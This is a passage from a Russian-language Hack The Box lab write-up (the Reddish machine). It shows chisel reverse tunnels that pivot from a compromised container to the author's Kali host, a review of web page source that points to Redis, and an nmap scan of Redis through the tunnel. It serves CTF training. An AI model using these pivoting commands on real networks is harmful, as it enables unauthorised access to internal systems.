 После чего подключаемся к этому серверу с помощью клиента на `nodered`. Команда выше откроет 8890-й порт на Kali (флаг `R`), через который трафик будет попадать в 80-й порт хоста `172.19.0.3`. Если не указать сетевой интерфейс на обратном соединении явно (в данном случае это `127.0.0.1`), то будет использован `0.0.0.0`, что означает, что **любой** участник сети сможет юзать нашу машину в качестве футхолда для общения с `172.19.0.3:80`. Так как это нас не устраивает, то приходится вручную прописывать `127.0.0.1`. В этом отличие от дефолтного SSH-клиента: там по умолчанию всегда будет использован `127.0.0.1`.

![network-map-2.png](/assets/images/htb/machines/reddish/network-map-2.png)
{:.center-image}

Сетевая карта. Часть 2: Туннель до веба через nodered
{:.quote}

### Исследование веб-сайта

Если открыть `localhost:8890` в браузере, нас снова встретит радостная новость о том, что «It works!». Это мы уже видели, поэтому откроем сорцы веб-странички в поисках интересного кода.

Целиком [исходник](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/www-index.html) вставлять не буду, только скриншот с интересными моментами.

![www-web-index-source.png](/assets/images/htb/machines/reddish/www-web-index-source.png)
{:.center-image}

Комментарий (синим) гласит о том, что где-то существует контейнер с базой данных, у которой есть доступ к сетевой папке этого сервера. Аргументы функции `test` (красным) в совокупность с упоминанием некой базы данных напоминают команды [GET](https://redis.io/commands/get) и [INCR](https://redis.io/commands/INCR) в NoSQL-СУБД [Redis](https://ru.wikipedia.org/wiki/Redis). С примерами тестовых запросов через `ajax` можно поиграть в браузере и убедиться, что они и правда работают в отличии от еще нереализованной функции `backup`.

Пока все сходится, и, сдается мне, я знаю, где искать Redis: как ты помнишь, у нас оставался еще один неопознанный хост с открытым 6379-м портом... Как раз самым что ни на есть [дефолтным](https://www.speedguide.net/port.php?port=6379) портом для Redis.

### Redis

Пробросим еще один обратный туннель на Kali, который будет идти к порту `6379`.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:6379:172.19.0.2:6379 &
```

![network-map-3.png](/assets/images/htb/machines/reddish/network-map-3.png)
{:.center-image}

Сетевая карта. Часть 3: Туннель до Redis через nodered
{:.quote}

И теперь можно стучаться в гости к Redis со своей машины. К примеру, просканируем 6379-й порт с помощью Nmap — благо теперь у нас есть весь арсенал NSE для идентификации сервисов. Не забываем о флаге `-sT`, так как сырые пакеты не умеют ходить через туннели.

```
root@kali:~# nmap -n -Pn -sT -sV -sC localhost -p6379
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
...
```
